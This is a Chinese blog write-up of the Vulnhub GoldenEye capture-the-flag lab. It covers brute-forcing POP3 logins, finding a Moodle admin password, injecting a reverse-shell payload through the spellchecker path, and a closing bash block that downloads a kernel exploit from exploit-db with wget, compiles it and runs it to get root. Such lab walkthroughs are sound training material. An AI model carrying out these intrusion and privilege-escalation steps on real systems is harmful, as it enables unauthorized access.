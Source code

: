 ```yaml
---
title: Vulnhub - GoldenEye の Write-Up
date: 2020-01-13 19:07:21
categories:
- WriteUPs
- Vulnhub
tags:
- Web
---
```

## 前言

这两天尝试了下[GoldenEye](https://www.vulnhub.com/entry/goldeneye-1,240/)这台靶机，难度不大，但是有坑，也能学到不少的东西，主要是可以接触到POP3渗透方面的知识。

<!-- more -->

## Step 1

首先第一步还是传统的找靶机IP以及端口扫描：

![](/img/GoldenEye/GoldenEye1.png)

![](/img/GoldenEye/GoldenEye2.png)

可以看到靶机开启了SMTP和POP3服务。

## Step 2

首先访问一下80端口的WEB服务：

![](/img/GoldenEye/GoldenEye3.png)

再按照提示访问/sev-home/：

![](/img/GoldenEye/GoldenEye4.png)

提示这是GoldenEye的授权登录入口。我们暂时还没有帐号和密码，只能再寻找其他线索。回到首页，查看首页源码，在terminal.js中发现重要的信息：

![](/img/GoldenEye/GoldenEye5.png)

提示中告诉了我们Boris的密码，是Unicode编码的，去解密：

![](/img/GoldenEye/GoldenEye6.png)

然后我们用解出的密码登录GoldenEye系统：

![](/img/GoldenEye/GoldenEye7.png)

提示我们在一个不常用的端口开启了pop3的服务，当然就是我们扫描时扫到的55007端口。然后查看该页面源代码，发现在最底下还有个hint：

![](/img/GoldenEye/GoldenEye8.png)

## Step 3

上一步的提示告诉我们两个帐号，结合POP3服务的提示，猜测下一步便要爆破密码：

![](/img/GoldenEye/GoldenEye9.png)

![](/img/GoldenEye/GoldenEye10.png)

果然爆破出来两个帐号的密码，然后尝试用着两个帐号密码登录55007端口的POP3邮箱：

![](/img/GoldenEye/GoldenEye11.png)

可以看到Boris账户里有3封邮件，但是这3封邮件并没有任何有价值的信息。再登录Natalya的账户，有2封邮件：

![](/img/GoldenEye/GoldenEye12.png)

![](/img/GoldenEye/GoldenEye13.png)

第二封邮件给了我们一个账号以及提示，我们按照提示的步骤首先添加域名，然后访问看看会遇到什么：

![](/img/GoldenEye/GoldenEye14.png)

这是一个Moodle系统，利用邮件里的帐号和密码登录系统：

![](/img/GoldenEye/GoldenEye15.png)

![](/img/GoldenEye/GoldenEye16.png)

登录之后就收到一封邮件，查看邮件具体内容发现就是简单的欢迎信件，然后发现Dr.Doak的邮箱用户名为doak：

![](/img/GoldenEye/GoldenEye17.png)

好吧，再去爆破一下doak的帐号和密码：

![](/img/GoldenEye/GoldenEye18.png)

登陆一下，找找有没有有用的信息：

![](/img/GoldenEye/GoldenEye19.png)

提示我们回到原来的网站用这个账户去登录寻找进一步的信息：

![](/img/GoldenEye/GoldenEye20.png)

## Step 4

在Dr.Doak账户里我们找到Moodle为2.2.3版本，下一步就是去找一些可以利用的漏洞了。在MSF中找到一个moodle的利用模块，但是该模块需要admin的账户密码，只能继续寻找，在dr_doak账户的私人文件中找到一个txt文件：

![](/img/GoldenEye/GoldenEye21.png)

下载下来，打开看一下内容：

![](/img/GoldenEye/GoldenEye22.png)

按照提示下载照片：

![](/img/GoldenEye/GoldenEye23.png)

发现照片里藏了一串奇怪的base64编码：

![](/img/GoldenEye/GoldenEye24.png)

解密一下得到：xWinter1995x!

尝试了一下，发现这是梦寐以求的admin用户密码：

![](/img/GoldenEye/GoldenEye25.png)

于是继续之前的MSF利用模块：

![](/img/GoldenEye/GoldenEye26.png)

但是会发现利用失败，因为我的MSF是最新版本，rhosts会根据域名到hosts文件中寻找，然后自动替换成IP，而靶机上的这个网站限制了只能通过域名访问，所以漏洞无法利用成功，只能找下这个漏洞利用模块的源代码，尝试手动利用。

![](/img/GoldenEye/GoldenEye27.png)

首先根据利用脚本将Spell engine改成PSpellShell：

![](/img/GoldenEye/GoldenEye28.png)

然后根据提示在aspellpath处插入payload：

![](/img/GoldenEye/GoldenEye29.png)

通过shellpop创建pythonf反弹shell的payload：

![](/img/GoldenEye/GoldenEye30.png)

创建一篇新的blog，随便写点内容，然后点击Toggle spellchecker即可触发payload得到反弹shell：

![](/img/GoldenEye/GoldenEye31.png)

![](/img/GoldenEye/GoldenEye32.png)

## Step 5

通过上一步我们得到了一个低权限的账号，下一步就是提权。使用`uname -a`命令查看靶机内核版本：

![](/img/GoldenEye/GoldenEye33.png)

找一下提权的利用脚本：

![](/img/GoldenEye/GoldenEye34.png)

然后利用该脚本即可获取该靶机root权限了，具体操作如下：

```bash
$ cd /tmp # 进入/tmp目录，方便读写
$ wget https://www.exploit-db.com/download/37292.c
$ sed -i 's/gcc/cc/g' 37292.c # 系统内没有gcc,所以只能用cc代替
$ cc 37292.c -o evil # 编译exp
$ chmod 700 evil
$ ./evil
```